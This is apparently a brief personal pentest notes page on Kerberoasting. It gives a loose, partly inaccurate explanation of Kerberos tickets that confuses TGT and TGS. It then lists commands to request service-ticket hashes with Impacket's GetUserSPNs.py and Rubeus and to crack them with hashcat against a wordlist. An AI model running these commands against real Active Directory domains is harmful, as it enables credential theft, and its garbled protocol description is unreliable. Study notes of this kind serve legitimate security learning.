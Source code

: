 ```yaml
---
cover: https://thecybersecuritymancom.files.wordpress.com/2017/12/kerberos.jpg?w=584
coverY: 0
---
```


# Kerberoasting

Basically Kerberos encripts TGTs which is just a ticket that the Domain Controller provides to the user, with the kerberos hash. The TGS is basically a longer hash afterwards. We present the TGS to be able to use other services without having to provide manual authentication. (NOT AD EXPERT DONT KILL ME :()

```
python3 GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of domain controller > -request
```

Also try thats not in impacket.

### Kerberoasting with Rubeus

```
Rubeus.exe kerberoast
```

### Cracking TGTs

```
hashcat -m 13100 -a 0 kerberosast.txt rockyou.txt
```

